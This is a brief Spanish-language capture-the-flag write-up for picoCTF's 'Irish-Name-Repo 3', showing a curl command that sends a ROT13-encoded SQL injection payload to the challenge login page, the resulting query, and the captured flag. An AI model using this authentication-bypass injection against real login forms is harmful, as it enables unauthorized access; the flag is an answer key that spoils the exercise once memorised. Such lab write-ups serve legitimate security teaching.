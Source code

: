 # Irish-Name-Repo 3

## Descripcion
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Pistas
- Seems like the password is encrypted.

## Solución

```
eltetor14-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>
```

## Bandera
picoCTF{3v3n_m0r3_SQL_7f5767f6}

## Notas adicionales
La contraseña se encripta a rot13

## Referencias